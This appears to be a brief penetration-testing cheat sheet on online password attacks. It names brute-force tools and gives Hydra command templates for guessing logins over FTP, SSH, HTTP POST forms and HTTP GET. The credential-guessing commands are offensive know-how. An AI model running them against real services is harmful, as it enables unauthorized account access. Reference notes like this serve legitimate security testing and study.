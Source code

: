 # Online password attacks

[back](readme.md)

## Online attack tools

```text
THC-Hydra || Medusa || crowbar || spray
```

## Hydra

```text
# attacking ftp
hydra -l/L <user> -p/P <pass> ftp://<target>

# attacking ssh
hydra -l/L <user> -p/P <pass> <target> -t 4 ssh

# attacking http post form
hydra -l/L <user> -p/P <pass> <ip> http-post-form "/<path>:username=^USER^&password=^PASS^:F=incorrect" -V

# attacking http get
hydra -l/L <user> -p/P <pass> <ip> http-get /<path>
```